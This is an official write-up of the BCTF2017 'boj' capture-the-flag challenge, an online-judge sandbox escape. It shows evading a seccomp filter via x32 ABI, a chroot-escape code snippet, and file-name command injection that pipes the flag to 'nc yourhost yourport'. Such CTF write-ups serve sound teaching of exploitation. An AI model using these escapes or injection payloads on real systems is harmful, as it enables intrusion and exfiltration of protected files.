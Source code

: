 ```yaml
---
layout: post
title: BCTF2017 boj official writeup 
categories: [Sandbox, PWN, Writeup]
description: BCTF2017 boj official writeup by Atum
keywords: BCTF, PWN, Writeup
---
```



## boj official writeup 

blue-lotus onlinejudge judge system, as you know, the code you submit will be run on remote server.
[challenge environment](https://github.com/A7um/bctf2017/tree/master/boj)

### step 1 escape seccomp

1. try to connect back to your host by
	
	```
	system("echo hello|nc yourhost yourport") 
	result: failed, remote server filtered syscall execve
	socket(yourhost:yourport)->send("hello") 
	result: wow, you get hello on yourhost:yourport
	```
	
2. use opendir->readdir->socket->send to list remote dir 

	```
	scf.so
	14xxxxxxxx
	```
	
3. dump scf.so by open->read->socket->send. by reversing scf.so, you find that scf.so applied a seccomp syscall filter by hooking \_\_libc\_start\_main. 

	```
	#define VALIDATE_ARCHITECTURE \
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS, arch_nr), \
	BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, ARCH_NR, 1, 0), \
	BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL)
	
	#define EXAMINE_SYSCALL \
	BPF_STMT(BPF_LD+BPF_W+BPF_ABS, syscall_nr)
	
	#define BLOCK_SYSCALL(name) \
	BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, __NR_##name, 0, 1), \
	BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL)
	
	/* Validate architecture. */
	VALIDATE_ARCHITECTURE,
	/* Grab the system call number. */
	EXAMINE_SYSCALL,
	BLOCK_SYSCALL(execve),
	BLOCK_SYSCALL(fork),
	BLOCK_SYSCALL(ptrace),
	BLOCK_SYSCALL(clone),
	BLOCK_SYSCALL(chroot),
	BLOCK_SYSCALL(pivot_root),
	BLOCK_SYSCALL(process_vm_readv),
	BLOCK_SYSCALL(process_vm_writev),
	ALLOW_PROCESS,
	```
	
obviously, this filter can be evaded by x32abi.

### step 2 escape chroot

1. run some api to gather infomation such as:
	
	```
	getuid,ret 0 
	getpid,ret 3
	getcwd,ret /root/
	
	system("ls everywhere")
	cannot find flag and directory is not complete. you realize that you are in a chroot environment. 
	```
	
2. escape chroot by

	```
	mkdir("tmpdir", 0755);
    dir_fd = open(".", O_RDONLY);
    if(chroot("tmpdir")){
        perror("chroot");
    }
    fchdir(dir_fd);
    close(dir_fd);  
    for(x = 0; x < 1000; x++) chdir("..");
    chroot("."); 
	```
	
3. list dir outside, you find some interesting files

	```
	/flag
	/start.h
	/home/ctf/setup.h
	/home/ctf/oj/*
	```
	
4. try to read /flag, you get permission deny. run system("ls -al /flag"), you get
	
	```
	-r--r----- 1 nobody nogroup    46 Apr 14 03:21 flag
	```
	
5. read /start.sh and /home/ctf/setup.sh, you find some binaries of boj: 
	
	```
	/usr/lib/cgi-bin/onlinejudge.cgi
	/usr/lib/cgi-bin/statequery.cgi
	/home/ctf/oj/sandbox/sandbox
	/home/ctf/oj/sandbox/scf.so
	/home/ctf/oj/sandbox/cr
	```
	
6. dump these binaries

### step 3 escape usernamespace

1. reverse sandbox, you find you are in a user namepsace. the root you own is not a real root. uid=0 inside namespace is mapped to uid=1000 outside.
2. reverse cr, you find there is a command injection bug. 

	```
	int run(char* binname){
	....
		snprintf(runcmd,310,"%s %s",sandboxpath,binpath);
	....
		if(pid==0){
	        drop(1000,1000);
	        if (signal(SIGALRM, (__sighandler_t)timeouthandler) < 0){
	            perror("signal");
	        }
	        alarm(2);
	        snprintf(state,300,"submit id: %s</br>state: %s</br>result: %s</br>",submitid,"Runing","N/A");
	        fd=open(statepath,O_WRONLY|O_CREAT);
	        write(fd,state,strlen(state));
	        close(fd);
	        chdir(sandboxdirname);
	        system(runcmd);
	....
	
	```
	
3. cr is running outside the namespace, you can inject command to get which user&group the flag really belong to

	```
		touch '/home/ctf/oj/bin/ad.c;ls -al flag|nc yourhost yourport';
		-r--r----- 1 root www-data    46 Apr 14 03:21 flag
	```
	
4. www-data is uid=33 && gid=33(read /etc/passwd). by reversing cr, you find: cr set it uid&&gid to 33 before compile. and by the way, these is a command injection error in compile function.

	```
	int compile(char *srcname){
	....
	 	snprintf(compilecmd,310,"gcc -o %s %s",binpath,srcpath);
	....
		if(pid==0)
		    {
		        drop(33,33);
		        if (signal(SIGALRM, (__sighandler_t)timeouthandler) < 0){
		            perror("signal");
		        }
		        alarm(1);
		        snprintf(state,300,"submit id: %s</br>state: %s</br>result: %s</br>",submitid,"Compiling","N/A");
		        fd=open(statepath,O_WRONLY|O_CREAT);
		        write(fd,state,strlen(state));
		        close(fd);
		        system(compilecmd);//file name command injuection
	....
	```
	
5. read flag by submiting system("touch '/home/ctf/oj/src/hahaha.c;cat flag \|nc yourhost yourport;'");
	
	
6. you get flag on your own host, done :) 

### something else

Chanllenge boj is designed to be a whitebox challenge mainly, the only blackbox step is try to connect back and get scf.so. after you get scf.so, you need to do something like: list dir->dump binaries->reversing->exploit->list dir->dump binaries->reversing->exploit...

I saw some teams tried and guessed blindly during the game. as we know, such guessing and trying is boring. I feel so sorry about that, maybe some infomation in this challenge mislead you guys to do a purely blackbox attack.
